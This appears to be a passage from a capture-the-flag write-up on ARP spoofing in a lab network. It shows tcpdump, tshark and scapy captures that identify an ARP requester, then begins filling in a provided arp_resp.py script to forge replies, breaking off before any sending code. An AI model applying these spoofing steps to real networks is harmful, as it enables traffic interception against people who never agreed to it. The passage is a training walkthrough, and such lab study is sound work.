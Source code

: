 With name resolution turned off (`-n` flag), we can also get a good idea of which IP's specifically were at play here:

```text
guest@b0fe959ddcac:~/scripts$ tcpdump -n
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
15:52:24.245355 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
15:52:25.293394 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
15:52:26.337427 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
15:52:27.381423 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
^C
4 packets captured
4 packets received by filter
0 packets dropped by kernel
```

Neat, so the host we're interested in is asking (every second?) who has 10.6.6.53! ARP being a layer 2 protocol means we'd be interested in the MAC addresses used to be able to craft a legitimate response using the provided script. Another way to view network traffic is to use `tshark`. In this case it would print out the relevant MAC addresses too.

```text
guest@b0fe959ddcac:~/scripts$ tshark -n
Capturing on 'eth0'
    1 0.000000000 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
    2 1.047977896 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
    3 2.092716820 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
    4 3.147953807 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
^C4 packets captured
```

Neat, `4c:24:57:ab:ed:84` is making the ARP request, so let's forge a response, saying that we are that host! This is where the `arp_resp.py` script given to us in the `scripts/` directory will be handy. The parts we need to complete are clearly marked too. Now, an ARP packet actually contains a number of fields. You could view the pcaps in Wireshark (or Cloudshark like the hints had), or, since we're receiving a new ARP request every second, we can use scapy to capture a packet and then just copy out the relevant fields from there. The provided script actually has all the code we need too!

```text
>>> from scapy.all import *
>>> sniff(filter="(arp[6:2] = 1)", count=1)
<Sniffed: TCP:0 UDP:0 ICMP:0 Other:1>
>>> a=_
>>> a[0]
<Ether  dst=ff:ff:ff:ff:ff:ff src=4c:24:57:ab:ed:84 type=ARP |<ARP  hwtype=0x1 ptype=IPv4 hwlen=6 plen=4 op=who-has hwsrc=4c:24:57:ab:ed:84 psrc=10.6.6.35 hwdst=00:00:00:
00:00:00 pdst=10.6.6.53 |>>
```

Here we can see all of the `ARP` fields we need, except for the value of `ptype` which you will see is `0x800` when viewed in wireshark. So, to complete the script using that captured packet as reference, I had:

```python arp_resp.py
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid

# Our eth0 ip
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our eth0 mac address
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])

us = ni.ifaddresses('eth0')[ni.AF_LINK][0]['addr']
them = "4c:24:57:ab:ed:84"

```